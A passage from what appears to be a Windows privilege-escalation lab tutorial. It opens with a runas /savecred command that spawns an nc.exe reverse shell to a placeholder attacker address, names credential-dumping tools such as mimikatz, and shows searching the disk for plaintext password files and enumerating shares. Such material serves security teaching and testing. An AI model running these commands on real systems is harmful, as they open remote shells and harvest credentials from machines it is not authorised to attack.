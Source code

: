 ```powershell
C:\Users\user>runas /savecred /user:admin "C:\Tools\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

### Extracting Credentials from the Credential Manager

Tools such as [mimikatz](https://github.com/gentilkiwi/mimikatz), [credentialfileview](https://www.nirsoft.net/utils/credentials_file_view.html), [VaultPasswordView](https://www.nirsoft.net/utils/vault_password_view.html), and [Empire Powershells module](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/dumpCredStore.ps1) can help you extract credentials from the Windows Credential Manager.

This section covers the following escalation paths:

- Non-Admin Medium Integrity Level (No Password) -> Non-Admin Medium Integrity Level Password
- Admin Medium Integrity Level (No Password) -> Admin Medium Integrity Level Password

## Plain-Text Credentials

Add a simple plain-text file containing a password:

```powershell
C:\Users\user> echo 'Administrator con123' > C:\Users\user\Documents\passwords.txt
```

Then from an attacker's perspective, let's search all the files in the `C:\` drive:

```powershell
C:\Users\user>dir /b /a /s C:\ > cdirs.txt
```

The command above has the following attributes:

- /b: Uses bare format (no heading information or summary).
- /a: Displays files with specified attributes.
- /s: Displays files in specified directory and all subdirectories.

Filter for files containing the following string (passw):

```powershell
C:\Users\user>type cdirs.txt | findstr /i passw
<...SNIP...>
C:\Users\user\Documents\passwords.txt
<...SNIP...>
```

We found a clear-text password filename:

```powershell
C:\Users\user>type C:\Users\user\Documents\passwords.txt
Administrator con123
```

We should also try to enumerate network shares or other disk mounts:

```powershell
net use
```

### Answer Files (Unattend/ed.xml)
